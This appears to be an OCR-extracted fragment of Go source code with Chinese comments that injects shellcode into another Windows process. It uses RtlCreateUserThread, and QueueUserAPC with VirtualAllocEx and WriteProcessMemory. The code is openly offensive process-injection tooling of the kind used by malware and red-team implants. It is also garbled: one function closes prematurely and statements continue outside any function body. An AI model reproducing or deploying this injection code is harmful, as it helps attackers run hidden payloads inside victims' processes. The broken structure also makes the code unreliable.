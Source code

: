 ```

	*/
	// 声明一个变量 tHandle 用于存储线程句柄
	var tHandle uintptr
	// 调用 RtlCreateUserThread 函数创建用户线程
	_, _, errRtlCreateUserThread := RtlCreateUserThread.Call(uintptr(pHandle), 0, 0, 0, 0, 0, addr, 0, uintptr(unsafe.Pointer(&tHandle)), 0)
	// 检查 RtlCreateUserThread 调用是否成功，如果不成功则返回错误信息
	if errRtlCreateUserThread.Error() != "The operation completed successfully." {
		return errors.New("Error calling RtlCreateUserThread:\r\n" + errRtlCreateUserThread.Error())
	}
	// 调用 WaitForSingleObject 函数等待线程结束
	_, _, errWaitForSingleObject := WaitForSingleObject.Call(tHandle, syscall.INFINITE)
	// 检查 WaitForSingleObject 调用是否成功，如果不成功则返回错误信息
	if errWaitForSingleObject.Error() != "The operation completed successfully." {
		return errors.New("Error calling WaitForSingleObject:\r\n" + errWaitForSingleObject.Error())
	}
	// 调用 CloseHandle 函数关闭进程句柄
	_, _, errCloseHandle := CloseHandle.Call(uintptr(pHandle))
	// 检查 CloseHandle 调用是否成功，如果不成功则返回错误信息
	if errCloseHandle.Error() != "The operation completed successfully." {
		return errors.New("Error calling CloseHandle:\r\n" + errCloseHandle.Error())
	}
	// 如果以上操作都成功，则返回 nil 表示没有错误
	return nil
// ExecuteShellcodeQueueUserAPC函数用于在提供的目标进程中使用Windows QueueUserAPC API调用执行提供的shellcode
func ExecuteShellcodeQueueUserAPC(shellcode []byte, pid uint32) error {
    // TODO 这可以是本地或远程的
    // 使用LazySystemDLL函数从kernel32.dll中加载API函数
    kernel32 := windows.NewLazySystemDLL("kernel32")

    // 获取API函数的指针
    VirtualAllocEx := kernel32.NewProc("VirtualAllocEx")
    VirtualProtectEx := kernel32.NewProc("VirtualProtectEx")
    WriteProcessMemory := kernel32.NewProc("WriteProcessMemory")
    CloseHandle := kernel32.NewProc("CloseHandle")
    CreateToolhelp32Snapshot := kernel32.NewProc("CreateToolhelp32Snapshot")
    QueueUserAPC := kernel32.NewProc("QueueUserAPC")
    Thread32First := kernel32.NewProc("Thread32First")
    Thread32Next := kernel32.NewProc("Thread32Next")
    OpenThread := kernel32.NewProc("OpenThread")

    // 考虑使用NtQuerySystemInformation替换CreateToolhelp32Snapshot并找到等待状态中的线程
    // https://stackoverflow.com/questions/22949725/how-to-get-thread-state-e-g-suspended-memory-cpu-usage-start-time-priori
}
	// 使用系统调用打开进程，获取进程句柄
	pHandle, errOpenProcess := syscall.OpenProcess(PROCESS_CREATE_THREAD|PROCESS_VM_OPERATION|PROCESS_VM_WRITE|PROCESS_QUERY_INFORMATION|PROCESS_VM_READ, false, pid)

	// 如果打开进程出现错误，返回错误信息
	if errOpenProcess != nil {
		return errors.New("Error calling OpenProcess:\r\n" + errOpenProcess.Error())
	}
	// 创建进程快照，获取系统快照句柄
	sHandle, _, errCreateToolhelp32Snapshot := CreateToolhelp32Snapshot.Call(TH32CS_SNAPHEAPLIST|TH32CS_SNAPMODULE|TH32CS_SNAPPROCESS|TH32CS_SNAPTHREAD, uintptr(pid))
	// 如果创建快照出现错误，返回错误信息
	if errCreateToolhelp32Snapshot.Error() != "The operation completed successfully." {
		return errors.New("Error calling CreateToolhelp32Snapshot:\r\n" + errCreateToolhelp32Snapshot.Error())
```